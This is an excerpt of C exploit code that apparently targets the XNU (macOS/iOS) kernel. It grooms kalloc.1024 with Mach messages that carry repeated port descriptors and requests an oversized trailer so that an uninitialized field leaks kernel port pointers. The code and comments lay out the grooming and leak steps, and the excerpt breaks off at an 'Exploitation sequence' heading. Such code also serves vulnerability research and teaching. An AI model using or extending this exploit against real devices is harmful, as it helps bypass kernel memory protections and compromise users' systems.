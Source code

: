 ```c
// Allocate user buffers for the two send messages (+MAX_TRAILER_SIZE for safety/margin)
big_message   = malloc(big_size   + MAX_TRAILER_SIZE);
small_message = malloc(small_size + sizeof(uint32_t)*2 + MAX_TRAILER_SIZE);

/*
* 3) Prepare the "big" message:
*    - Complex bit set (has descriptors)
*    - 50 OOL port descriptors, all pointing to the same sent_port
*    When you send a Mach message with port descriptors, the kernel “copy-ins” the userland port names (integers in your process’s IPC space) into an in-kernel ipc_kmsg_t, and resolves each name to the actual kernel object (an ipc_port).
*    Inside the kernel message, the header/descriptor area holds object pointers, not user names. On the way out (to the receiver), XNU “copy-outs” and converts those pointers back into names. This is explicitly documented in the copyout path: “the remote/local port fields contain port names instead of object pointers” (meaning they were pointers in-kernel).
*/
printf("[*] Creating first kalloc.1024 ipc_kmsg\n");
memset(big_message, 0, big_size + MAX_TRAILER_SIZE);

big_message->header.msgh_remote_port = port; // send to our receive right
big_message->header.msgh_size        = big_size;
big_message->header.msgh_bits        = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, 0)
| MACH_MSGH_BITS_COMPLEX;
big_message->body.msgh_descriptor_count = LEAK_PORTS;

for (int i = 0; i < LEAK_PORTS; i++) {
big_message->sent_ports[i].type        = MACH_MSG_PORT_DESCRIPTOR;
big_message->sent_ports[i].disposition = MACH_MSG_TYPE_COPY_SEND;
big_message->sent_ports[i].name        = sent_port; // repeated to fill array with pointers
}

/*
* 4) Prepare the "small" message:
*    - Fewer descriptors (LEAK_PORTS-10) so that, when the kalloc.1024 chunk is reused,
*      the trailer sits earlier and *overlaps* bytes where descriptor pointers lived.
*/
printf("[*] Creating second kalloc.1024 ipc_kmsg\n");
memset(small_message, 0, small_size + sizeof(uint32_t)*2 + MAX_TRAILER_SIZE);

small_message->header.msgh_remote_port = port;
small_message->header.msgh_bits        = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, 0)
| MACH_MSGH_BITS_COMPLEX;
small_message->body.msgh_descriptor_count = LEAK_PORTS - 10;

for (int i = 0; i < LEAK_PORTS - 10; i++) {
small_message->sent_ports[i].type        = MACH_MSG_PORT_DESCRIPTOR;
small_message->sent_ports[i].disposition = MACH_MSG_TYPE_COPY_SEND;
small_message->sent_ports[i].name        = sent_port;
}

/*
* 5) Receive buffer for reading back messages with trailers.
*    We'll request a *max-size* trailer via MACH_RCV_TRAILER_ELEMENTS(5).
*    On vulnerable kernels, field `msgh_ad` (in mac trailer) may be left uninitialized
*    if the requested elements value is < MACH_RCV_TRAILER_AV, causing stale bytes to leak.
*/
uint8_t *buffer = malloc(big_size + MAX_TRAILER_SIZE);
mach_msg_mac_trailer_t *trailer; // interpret the tail as a "mac trailer" (format 0 / 64-bit variant internally)
uintptr_t sent_port_address = 0; // we'll build the 64-bit pointer from two 4-byte leaks

/*
* ---------- Exploitation sequence ----------
```